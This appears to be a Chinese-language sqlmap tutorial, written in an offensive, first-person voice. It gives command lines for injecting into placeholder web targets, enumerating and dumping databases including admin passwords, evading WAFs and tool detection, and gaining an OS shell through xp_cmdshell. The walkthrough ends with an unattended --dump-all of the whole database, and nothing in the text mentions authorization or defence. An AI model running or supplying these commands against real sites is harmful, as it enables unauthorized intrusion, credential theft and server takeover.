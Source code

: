 Sqlmap
======

注入分法不同，种类不同，来个简单的分类：<br/>

        1.get型:        sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx"
        2.post型:       sqlmap -u "http://xxx.xx.xxx/xx.xxx" --data="xxxx=xxxx&xxxx=xxx"
        3.cookie类注入: sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx" --cookie="xxx=xxx&xxx=xxx" --level=2


需要数据库好：<br/>

        --dbs
得到数据库名称xxx，需要表： <br/>

        -D xxx --tables
得到表名xxxx，需要段：<br/>

        -D xxx -T xxxx --columns
得到段内有admin，password，需要值：<br/>

        -D xxx -T xxxx -C "admin,password" --dump

那么我们来理解一下，-D -T -C 是干吗的，当然就是知道其名称，指定使用它。<br/>
--dbs --tables --columns 是干吗的，当然就是不知道名称，列出来呗<br/>
--dump 那自然就是字面意思，类似于导出数据的行为<br/>
其实注入有了上面这几个命令，妥妥的够用了，不过还需要绕waf：<br/>

        --tamper=""
注入被识别出来是工具，断开咋办：<br/>

        --user-agent=""


好，跑数据库就是这么简单，于是呢来一个稍微有点干货的例子：<br/>
网站http://www.xxx.com/login.asp有post注入，我想日了,但是我不想出去拷贝post数据，很麻烦，我想让sqlmap自动跑post注入<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms
很好，上面的命令成功的帮我跑了post注入，并且找到了post的注入点jjj=123，于是我用的命令看看数据库<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj --dbs
顺便看看当前用户是不是dba<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj --is-dba
        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj -a 
用了上面的命令 -a能得到什么呢：自己去看帮助吧。<br/>
帮你筛选了一下，-a下面的那些命令是用来看用户，看主机，看权限的。<br/>
我发现权限还是挺高的，同时呢，我跑出来了数据库名称kkk<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj -D kkk --tables
同时我找到了网站路径，然后我就又一次找到了sqlmap的牛逼的--os-xx系列命令，可以执行系统命令，同时还发现了牛逼的xpcmdshell<br/> 

        --os-shell
以及很多牛逼的文件操作命令<br/>

        --file-xx 
这些命令在需要用的时候使用就是了，会给你带来意想不到的惊喜<br/>
与此同时，我发现tables里面没有我想要的东西，我也找不到合适的内容，咋办呢，心一横，我决定把所有的数据库内容跑出来自己找，<br/>
于是我这么做：<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj -D kkk --dump-all
然后牛逼的sqlmap就开始跑啊跑，然后紧接着我的蛋就碎了，尼玛，sqlmap一会就问你一次要不要破解密码<br/>
，要不要这个，要不要那个，我和我的小朋友们都想擦你妹夫，功夫不负有心人，我又看见了一个命令 <br/>

        --batch 
可以自动选择sqlmap默认选项，于是，我可以和我的小朋友们玩耍去了，再也不用看着sqlmap拖库了。<br/>



总结下来，帮助文档还是很重要的，多看看，总会有些收获：<br/>
为了避免各位看英文看到吐，大概总结下：<br/>
```
* Target:       字面意思，目标，那么就是确定目标的
* Request:      字面意思，请求，就是定义请求内容的，比如post数据，http头，cookie注入，http头污染等等
* Optimization：字面意思，调节性能，等等
* Injection:    字面意思，注入的设置内容基本在这里，比如指定注入点，指定db，指定系统，等等
* Detection:    基本就是用在确认注入范围，寻找注入点区域，这些
* Technique:    基本用在确定注入手段，以及攻击方式
* Fingerprint:  基本用在指纹识别，用的很少
* Enumeration:  枚举信息，主要用在注入中，很重要，很常用
* Brute force:  用来爆破，其实主要是枚举tables columns用的
* User-defined function injection:      现在只有udf提权，以及指定一些自己定义的sqlmap脚本用，高端使用，求大牛指点
* File system access:                   主要是文件读取，文件写入
* Operating system access:              主要用在对系统操作，例如os-shell 以及 后续的连接metasploit 实现后渗透攻击
* windows registry access:              基本就是注册表操作了
* General:                              字面意思，综合的内容，一些特殊的功能实现，我在这里找到了crawl batch这些非常好用的参数
* Miscellaneous:                        目测高端应用，还没怎么用过，求大神指教
```
